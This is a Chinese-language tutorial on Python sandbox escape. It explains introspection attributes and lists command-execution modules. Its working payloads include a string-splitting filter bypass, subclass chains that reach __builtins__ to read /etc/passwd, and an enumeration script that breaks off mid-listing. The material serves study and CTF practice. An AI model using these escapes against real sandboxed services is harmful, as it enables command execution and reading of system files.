# Python安全学习—Python沙盒逃逸

Author: H3rmesk1t

Data: 2022.03.23

# 简介
所谓的`Python`沙盒, 即以一定的方法模拟`Python`终端, 实现用户对`Python`的使用. 而`Python`沙箱逃逸, 就是攻击者通过某种绕过的方式, 从模拟的沙箱环境中逃逸出来, 从而实现执行系统命令等攻击操作.

# 前置知识
## dir 函数
`dir`函数不带参数时, 返回当前范围内的变量、方法和定义的类型列表; `dir`函数带参数时, 返回参数的属性、方法列表. 如果参数包含方法`__dir__()`, 该方法将被调用. 如果参数不包含`__dir__()`, 该方法将最大限度地收集参数信息.

<div align=center></div>

## Object 类
`Python`的`Object`类中集成了很多的基础函数, 想要调用的时候也是需要用`object`去操作的, 主要是通过`__mro__`和`__bases__`两种方式来创建`object`. 接着通过`object`类的`__subclasses__()`方法获取所有的子类列表, 但是需要注意, `Python2`和`Python3`获取的子类不同.

<div align=center></div>

<div align=center></div>

# 导入模块
在`Python`的内建函数中, 存在部分可以实现任意命令执行的函数, 例如:

```shell
os.system()
os.popen()
commands.getstatusoutput()
commands.getoutput()
commands.getstatus()
subprocess.call(command, shell=True)
subprocess.Popen(command, shell=True)
pty.spawn()
```

而在`Python`中, 导入模块的方法通常有三种:
 - import xxx
 - from xxx import *
 - __import__('xxx')

利用上述的导入方法, 导入相关模块并使用上述的函数实现命令执行. 除此之外, 也可以通过路径引入模块, 例如在`linux`系统中`Python`的`os`模块的路径一般都是在`/usr/lib/python2.7/os.py`, 当知道路径的时候, 就可以通过相应地操作导入模块, 然后进一步使用相关函数.

# Python 绕过沙盒中常见的函数、属性
## `__mro__`
`__mro__`用于展示类的继承关系, 类似于`bases`, 递归的显示父类一直到`object`, 返回类型为元组.

<div align=center></div>

## `__base__`
列出其基类, `__bases__`也是列出基类, 只不过`__bases__`返回的是元组.

<div align=center></div>

## `__name__`
获得模块的名字, 这个值获得的只是一个字符串, 不是模块的引用.

## `__call__`
可以把类实例当做函数调用.

## `reload()`
重新加载之前导入的模块.

## `getattr()`
返回对象的命名属性的值, `getattr(object, name)`, 相当于`object.name`, `name`必须是一个字符串.

## `__import__`
`__import__`接收字符串作为参数, 导入该字符串名称的模块. 例如, `import os`相当于`__import__('os')`. 由于参数是字符串的形式, 因此在某些情况下可利用字符串拼接的方式`Bypass`过滤, 例如, `__import__('o'+'s').system('who'+'ami')`.

<div align=center></div>

## `__globals__`
`__globals__`是一个特殊属性, 能够返回函数所在模块命名空间的所有变量, 其中包含了很多已经引入的`modules`.

## `__getattr__`
当属性查找没有在通常的位置找到属性时调用, 例如它不是实例属性, 也不是在类树中找到`self`.

## `__builtins__`
`Python`的内建模块, 该内建模块中的功能可以直接使用, 不用在其前添加内建模块前缀. 在`Python2.X`版本中, 内建模块被命名为`__builtin__`, 在`Python3.X`版本中, 被命名为`__builtins__`. 可以通过`dir()`函数来查看该模块内包含的函数, 同时也可以通过`dict`属性调用这些函数.

<div align=center></div>

## `func_globals`
返回包含函数全局变量的字典的引用(定义函数的模块的全局命令控件), `function.func_globals`, 返回类型是字典.

## `__subclasses__`
返回子类列表.

## `__getattribute__()`
被调用无条件地实现类的实例的属性访问, `object.getattribute(self, name)`, 其中`name`必需的.

# 可利用的模块和方法
在`Python`的内建函数中, 有一些函数可以帮助实现命令执行或文件操作的利用.

## 命令执行类
### os

```python
import os
# 执行 shell 命令不会返回 shell 的输出.
os.system('whoami')
# 会产生返回值, 可通过 read() 的方式读取返回值.
os.popen("whoami").read()
```

### pyt
仅限`Linux`环境.

```python
import pty
pty.spawn("ls")
```

### sys
该模块通过`modules`函数引入命令执行模块来实现.

```python
import sys
sys.modules['os'].system('whoami')
```

### timeit

```python
import timeit
timeit.timeit("__import__('os').system('whoami')",number=1)
```

### commands
`commands`模块会返回命令的输出和执行的状态位, 仅限`Linux`环境.

```python
import commands
commands.getstatusoutput("ls")
commands.getoutput("ls")
commands.getstatus("ls")
```

### platform
仅`python2.7`适用.

```python
import platform
print(platform.popen('whoami').read())
```

### importlib
通过引入其他命令执行库实现命令执行.

```python
import importlib
importlib.import_module('os').system('whoami')
```

### exec/eval/execfile/compile
这几个函数都能执行参数的`Python`代码, `execfile`只存在于`Python2`.

```python
exec("__import__('os').system('whoami')")

eval("__import__('os').system('whoami')")

execfile('/usr/lib/python2.7/os.py')
system('whoami')

exec(compile("__import__('os').system('whoami')", '<string>', 'exec'))
```

## 文件操作类
### file
该函数只存在于`Python2`.

```python
file('/etc/passwd').read()
file('demo.txt', 'w').write('xxx')
```

### open

```python
open('/etc/passwd').read()
open('demo.txt', 'w').write('xxx')
```

### codecs

```python
import codecs
codecs.open('/etc/passwd').read()
codecs.open('demo.txt', 'w').write('xxx')
```

## 获取当前 Python 环境信息

```python
import sys
sys.version
sys.path
sys.modules
```

# 遍历获取逃逸方法
## 逃逸方法分析
先来看看基本的逃逸方法, 即构造元素链. 先获取一个`object`类. 该节中均用`Python2`来做演示.

```python
''.__class__.__mro__[2]
[].__class__.__mro__[1]
{}.__class__.__mro__[1]
().__class__.__mro__[1]
[].__class__.__mro__[-1]
{}.__class__.__mro__[-1]
().__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
[].__class__.__base__
().__class__.__base__
{}.__class__.__base__
```

<div align=center></div>

然后通过`object`类的`__subclasses__()`方法获取所有的子类列表, 需要注意的是, `Python2`和`Python3`获取的子类不同.

```python
''.__class__.__mro__[2].__subclasses__()
[].__class__.__mro__[1].__subclasses__()
{}.__class__.__mro__[1].__subclasses__()
().__class__.__mro__[1].__subclasses__()
{}.__class__.__bases__[0].__subclasses__()
().__class__.__bases__[0].__subclasses__()
[].__class__.__bases__[0].__subclasses__()
```

<div align=center></div>

接着寻找重载过的`__init__`类, 在获取初始化属性后, 寻找不带`wrapper`的, 因为`wrapper`是指这些函数并没有被重载, 这时它们并不是`function`, 不具有`__globals__`属性.

<div align=center></div>

这里可以利用`for`循环来快速筛查符合条件的类:

```python
subclassesList = ''.__class__.__mro__[2].__subclasses__()
lengthOfSubclasses = len(subclassesList)
for i in range(lengthOfSubclasses):
    if 'wrapper' not in str(subclassesList[i].__init__):
        print(i, subclassesList[i])
```

输出的结果为:

```python
(58, <class 'warnings.WarningMessage'>)
(59, <class 'warnings.catch_warnings'>)
(60, <class '_weakrefset._IterationGuard'>)
(61, <class '_weakrefset.WeakSet'>)
(71, <class 'site._Printer'>)
(76, <class 'site.Quitter'>)
(77, <class 'codecs.IncrementalEncoder'>)
(78, <class 'codecs.IncrementalDecoder'>)
```

<div align=center></div>

由于重载过的`__init__`类的类具有`__globals__`属性, 因此会返回很多`dict`类型.

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__
```

<div align=center></div>

寻找`keys`中的`__builtins__`来查看引用, 同样会返回很多`dict`类型.

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
```

<div align=center></div>

最后再在`keys`中寻找可利用的函数即可, 例如`file`函数.

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

<div align=center></div>

## 脚本遍历其他逃逸方法
### Python2

```python
# coding=UTF-8

find_modules = {'filecmp': ['os', '__builtins__'], 'heapq': ['__builtins__'], 'code': ['sys', '__builtins__'],
                'hotshot': ['__builtins__'], 'distutils': ['sys', '__builtins__'], 'functools': ['__builtins__'],
                'random': ['__builtins__'], 'tty': ['sys', '__builtins__'], 'subprocess': ['os', 'sys', '__builtins__'],
                'sysconfig': ['os', 'sys', '__builtins__'], 'whichdb': ['os', 'sys', '__builtins__'],
                'runpy': ['sys', '__builtins__'], 'pty': ['os', 'sys', '__builtins__'],
                'plat-atheos': ['os', 'sys', '__builtins__'], 'xml': ['__builtins__'], 'sgmllib': ['__builtins__'],
                'importlib': ['sys', '__builtins__'], 'UserList': ['__builtins__'], 'tempfile': ['__builtins__'],
                'mimify': ['sys', '__builtins__'], 'pprint': ['__builtins__'],
                'platform': ['os', 'platform', 'sys', '__builtins__'], 'collections': ['__builtins__'],
                'cProfile': ['__builtins__'], 'smtplib': ['__builtins__'], 'compiler': ['__builtins__', 'compile'],
                'string': ['__builtins__'], 'SocketServer': ['os', 'sys', '__builtins__'],
                'plat-darwin': ['os', 'sys', '__builtins__'], 'zipfile': ['os', 'sys', '__builtins__'],
                'repr': ['__builtins__'], 'wave': ['sys', '__builtins__', 'open'], 'curses': ['__builtins__'],
                'antigravity': ['__builtins__'], 'plat-irix6': ['os', 'sys', '__builtins__'],
                'plat-freebsd6': ['os', 'sys', '__builtins__'], 'plat-freebsd7': ['os', 'sys', '__builtins__'],
                'plat-freebsd4': ['os', 'sys', '__builtins__'], 'plat-freebsd5': ['os', 'sys', '__builtins__'],
                'plat-freebsd8': ['os', 'sys', '__builtins__'], 'aifc': ['__builtins__', 'open'],
                'sndhdr': ['__builtins__'], 'cookielib': ['__builtins__'], 'ConfigParser': ['__builtins__'],
                'httplib': ['os', '__builtins__'], '_MozillaCookieJar': ['sys', '__builtins__'],
                'bisect': ['__builtins__'], 'decimal': ['__builtins__'], 'cmd': ['__builtins__'],
                'binhex': ['os', 'sys', '__builtins__'], 'sunau': ['__builtins__', 'open'],
                'pydoc': ['os', 'sys', '__builtins__'], 'plat-riscos': ['os', 'sys', '__builtins__'],
                'token': ['__builtins__'], 'Bastion': ['__builtins__'], 'msilib': ['os', 'sys', '__builtins__'],
                'shlex': ['os', 'sys', '__builtins__'], 'quopri': ['__builtins__'],
                'multiprocessing': ['os', 'sys', '__builtins__'], 'dummy_threading': ['__builtins__'],
                'dircache': ['os', '__builtins__'], 'asyncore': ['os', 'sys', '__builtins__'],
                'pkgutil': ['os', 'sys', '__builtins__'], 'compileall': ['os', 'sys', '__builtins__'],
                'SimpleHTTPServer': ['os', 'sys', '__builtins__'], 'locale': ['sys', '__builtins__'],
                'chunk': ['__builtins__'], 'macpath': ['os', '__builtins__'], 'popen2': ['os', 'sys', '__builtins__'],
                'mimetypes': ['os', 'sys', '__builtins__'], 'toaiff': ['os', '__builtins__'],
                'atexit': ['sys', '__builtins__'], 'pydoc_data': ['__builtins__'],
                'tabnanny': ['os', 'sys', '__builtins__'], 'HTMLParser': ['__builtins__'],
                'encodings': ['codecs', '__builtins__'], 'BaseHTTPServer': ['sys', '__builtins__'],
                'calendar': ['sys', '__builtins__'], 'mailcap': ['os', '__builtins__'],
                'plat-unixware7': ['os', 'sys', '__builtins__'], 'abc': ['__builtins__'], 'plistlib': ['__builtins__'],
                'bdb': ['os', 'sys', '__builtins__'], 'py_compile': ['os', 'sys', '__builtins__', 'compile'],
                'pipes': ['os', '__builtins__'], 'rfc822': ['__builtins__'],
                'tarfile': ['os', 'sys', '__builtins__', 'open'], 'struct': ['__builtins__'],
                'urllib': ['os', 'sys', '__builtins__'], 'fpformat': ['__builtins__'],
                're': ['sys', '__builtins__', 'compile'], 'mutex': ['__builtins__'],
                'ntpath': ['os', 'sys', '__builtins__'], 'UserString': ['sys', '__builtins__'], 'new': ['__builtins__'],
                'formatter': ['sys', '__builtins__'], 'email': ['sys', '__builtins__'],
                'cgi': ['os', 'sys', '__builtins__'], 'ftplib': ['os', 'sys', '__builtins__'],
                'plat-linux2': ['os', 'sys', '__builtins__'], 'ast': ['__builtins__'],
                'optparse': ['os', 'sys', '__builtins__'], 'UserDict': ['__builtins__'],
                'inspect': ['os', 'sys', '__builtins__'], 'mailbox': ['os', 'sys', '__builtins__'],
                'Queue': ['__builtins__'], 'fnmatch': ['__builtins__'], 'ctypes': ['__builtins__'],
                'codecs': ['sys', '__builtins__', 'open'], 'getopt': ['os', '__builtins__'], 'md5': ['__builtins__'],
                'cgitb': ['os', 'sys', '__builtins__'], 'commands': ['__builtins__'],
                'logging': ['os', 'codecs', 'sys', '__builtins__'], 'socket': ['os', 'sys', '__builtins__'],
                'plat-irix5': ['os', 'sys', '__builtins__'], 'sre': ['__builtins__', 'compile'],
                'ensurepip': ['os', 'sys', '__builtins__'], 'DocXMLRPCServer': ['sys', '__builtins__'],
                'traceback': ['sys', '__builtins__'], 'netrc': ['os', '__builtins__'], 'wsgiref': ['__builtins__'],
                'plat-generic': ['os', 'sys', '__builtins__'], 'weakref': ['__builtins__'],
                'ihooks': ['os', 'sys', '__builtins__'], 'telnetlib': ['sys', '__builtins__'],
                'doctest': ['os', 'sys', '__builtins__'], 'pstats': ['os', 'sys', '__builtins__'],
                'smtpd': ['os', 'sys', '__builtins__'], '_pyio': ['os', 'codecs', 'sys', '__builtins__', 'open'],
                'dis': ['sys', '__builtins__'], 'os': ['sys', '__builtins__', 'open'],
                'pdb': ['os', 'sys', '__builtins__'], 'this': ['__builtins__'], 'base64': ['__builtins__'],
                'os2emxpath': ['os', '__builtins__'], 'glob': ['os', 'sys', '__builtins__'],
                'unittest': ['__builtins__'], 'dummy_thread': ['__builtins__'],
                'fileinput': ['os', 'sys', '__builtins__'], '__future__': ['__builtins__'],
                'robotparser': ['__builtins__'], 'plat-mac': ['os', 'sys', '__builtins__'],
                '_threading_local': ['__builtins__'], '_LWPCookieJar': ['sys', '__builtins__'],
                'wsgiref.egg-info': ['os', 'sys', '__builtins__'], 'sha': ['__builtins__'],
                'sre_constants': ['__builtins__'], 'json': ['__builtins__'], 'Cookie': ['__builtins__'],
                'tokenize': ['__builtins__'], 'plat-beos5': ['os', 'sys', '__builtins__'],
                'rexec': ['os', 'sys', '__builtins__'], 'lib-tk': ['__builtins__'], 'textwrap': ['__builtins__'],
                'fractions': ['__builtins__'], 'sqlite3': ['__builtins__'], 'posixfile': ['__builtins__', 'open'],
                'imaplib': ['subprocess', 'sys', '__builtins__'], 'xdrlib': ['__builtins__'],
                'imghdr': ['__builtins__'], 'macurl2path': ['os', '__builtins__'],
                '_osx_support': ['os', 'sys', '__builtins__'],
                'webbrowser': ['os', 'subprocess', 'sys', '__builtins__', 'open'],
                'plat-netbsd1': ['os', 'sys', '__builtins__'], 'nturl2path': ['__builtins__'],
                'tkinter': ['__builtins__'], 'copy': ['__builtins__'], 'pickletools': ['__builtins__'],
                'hashlib': ['__builtins__'], 'anydbm': ['__builtins__', 'open'], 'keyword': ['__builtins__'],
                'timeit': ['timeit', 'sys', '__builtins__'], 'uu': ['os', 'sys', '__builtins__'],
                'StringIO': ['__builtins__'], 'modulefinder': ['os', 'sys', '__builtins__'],
                'stringprep': ['__builtins__'], 'markupbase': ['__builtins__'], 'colorsys': ['__builtins__'],
                'shelve': ['__builtins__', 'open'], 'multifile': ['__builtins__'], 'sre_parse': ['sys', '__builtins__'],
                'pickle': ['sys', '__builtins__'], 'plat-os2emx': ['os', 'sys', '__builtins__'],
                'mimetools': ['os', 'sys', '__builtins__'], 'audiodev': ['__builtins__'], 'copy_reg': ['__builtins__'],
                'sre_compile': ['sys', '__builtins__', 'compile'], 'CGIHTTPServer': ['os', 'sys', '__builtins__'],
                'idlelib': ['__builtins__'], 'site': ['os', 'sys', '__builtins__'],
                'getpass': ['os', 'sys', '__builtins__'], 'imputil': ['sys', '__builtins__'],
                'bsddb': ['os', 'sys', '__builtins__'], 'contextlib': ['sys', '__builtins__'],
                'numbers': ['__builtins__'], 'io': ['__builtins__', 'open'],
                'plat-sunos5': ['os', 'sys', '__builtins__'], 'symtable': ['__builtins__'],
                'pyclbr': ['sys', '__builtins__'], 'shutil': ['os', 'sys', '__builtins__'], 'lib2to3': ['__builtins__'],
                'threading': ['__builtins__'], 'dbhash': ['sys', '__builtins__', 'open'],
                'gettext': ['os', 'sys', '__builtins__'], 'dumbdbm': ['__builtins__', 'open'],
                '_weakrefset': ['__builtins__'], '_abcoll': ['sys', '__builtins__'], 'MimeWriter': ['__builtins__'],
                'test': ['__builtins__'], 'opcode': ['__builtins__'], 'csv': ['__builtins__'],
